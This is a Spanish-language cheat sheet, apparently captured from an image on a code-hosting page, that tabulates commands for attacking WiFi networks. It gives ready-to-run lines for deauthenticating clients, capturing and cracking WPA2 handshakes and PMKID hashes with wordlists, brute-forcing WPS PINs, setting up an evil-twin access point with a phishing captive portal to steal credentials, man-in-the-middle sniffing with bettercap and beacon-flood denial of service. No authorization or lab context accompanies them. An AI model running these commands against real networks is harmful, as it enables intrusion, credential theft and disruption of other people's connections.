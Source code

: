 

🧨 Tabla de Comandos para Ataques WiFi
Tipo de Ataque	Herramienta	Comando	Objetivo
🔍 Reconocimiento	airodump-ng	sudo airodump-ng wlan0	Escaneo pasivo de redes y clientes
		sudo airodump-ng -c <CANAL> --bssid <BSSID> -w captura wlan0	Captura dirigida a una red específica
💥 Deautenticación	aireplay-ng	sudo aireplay-ng --deauth 10 -a <BSSID> wlan0	Expulsar a todos los clientes del AP (10 paquetes)
		sudo aireplay-ng --deauth 10 -a <BSSID> -c <MAC_CLIENTE> wlan0	Expulsar a un cliente específico
🎣 Captura de Handshake	airodump-ng	(igual que captura dirigida arriba)	Recolectar el handshake WPA2-PSK
	aircrack-ng	aircrack-ng -w rockyou.txt captura.cap	Romper el WPA2 con diccionario
👻 Evil Twin (AP falsa)	airbase-ng	sudo airbase-ng -e "WiFiGratis" -c 6 wlan0	Crear punto de acceso falso
	hostapd + dnsmasq	Configuración avanzada para portal cautivo (phishing)	Capturar credenciales
🐍 MITM / Sniffing	bettercap	sudo bettercap -iface wlan0mon	Interceptar tráfico y actuar como intermediario
		net.probe on
wifi.recon on
wifi.assoc <BSSID>	Escanear y asociarse a una red
🔓 Ataque WPS	reaver	sudo reaver -i wlan0mon -b <BSSID> -vv	Fuerza bruta al PIN WPS
🔓 Ataque PMKID	hcxdumptool	sudo hcxdumptool -i wlan0 --enable_status=15 -o pmkid.pcapng	Captura de hash PMKID WPA2
	hcxpcapngtool	hcxpcapngtool -o hash.22000 pmkid.pcapng	Convertir a formato de Hashcat
	hashcat	hashcat -m 22000 hash.22000 rockyou.txt	Ataque por diccionario con GPU
💣 Beacon Flood / DoS	mdk4	sudo mdk4 wlan0mon b -n "RedFalsa" -f	Inundar con falsas redes SSID
🪛 Prueba de Inyección	aireplay-ng	sudo aireplay-ng -9 wlan0mon	Verificar si la tarjeta soporta inyección
⚙️ Extras de Configuración
Paso	Comando
Activar modo monitor	sudo ip link set wlan0 down && sudo iw wlan0 set monitor control && sudo ip link set wlan0 up
O usar	sudo airmon-ng start wlan0
Ver interfaces inalámbricas	iwconfig
Desactivar modo monitor	sudo airmon-ng stop wlan0mon

